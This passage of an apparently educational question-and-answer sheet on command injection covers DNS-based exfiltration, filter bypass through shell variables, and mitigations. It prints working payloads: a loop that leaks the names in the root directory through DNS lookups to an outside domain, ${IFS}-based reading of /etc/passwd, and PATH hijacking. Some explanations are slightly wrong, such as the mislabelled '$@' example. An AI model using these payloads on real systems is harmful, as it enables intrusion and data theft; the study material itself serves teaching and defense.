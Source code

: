 - **DNS-based Exfiltration**: DNS requests can be used to exfiltrate data. For example, executing commands like `for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done` could trigger DNS queries that carry the exfiltrated information.

---

### **7. Filter Bypass with Environment Variables**

**Question**:  
Explain how environment variables like `$IFS`, `$PATH`, and `$@` can be leveraged to bypass command injection filters. Provide examples for each.

**Answer**:
- **`$IFS` (Internal Field Separator)**: Used in some shells to split command arguments. By modifying or referencing `$IFS`, attackers can inject space without being detected:
    ```bash
    cat${IFS}/etc/passwd
    ```

- **`$PATH`**: If an attacker can inject into the `PATH`, they can potentially execute commands located in non-standard directories, bypassing security measures.
    ```bash
    export PATH=/tmp:$PATH
    ```

- **`$@`**: Refers to all arguments passed to a script or command. Using `$@` in an injection context can modify how arguments are passed.
    ```bash
    echo whoami | $0
    ```

---

### **8. Mitigation and Defense**

**Question**:  
What are the best practices to prevent command injection vulnerabilities in web applications? Discuss both code-level mitigations (e.g., `escapeshellarg()` in PHP) and broader architectural changes.

**Answer**:  
- **Code-Level Mitigations**: 
    - **Use parameterized queries**: Always avoid constructing shell commands directly from user input. For example, using `escapeshellarg()` or `escapeshellcmd()` in PHP to sanitize inputs.
    - **Input validation**: Use strict whitelisting of acceptable input. Reject anything that deviates from the expected format.
    - **Use system-specific APIs**: Prefer using language-specific functions (e.g., `file_get_contents()` or `fopen()` for file access) rather than shell

 commands.

- **Architectural Changes**:
    - **Privilege separation**: Run applications with the least privilege necessary, ensuring that the application does not have excessive permissions to execute system-level commands.
    - **Web Application Firewalls (WAFs)**: Use WAFs to detect and block command injection attempts based on known attack patterns.

---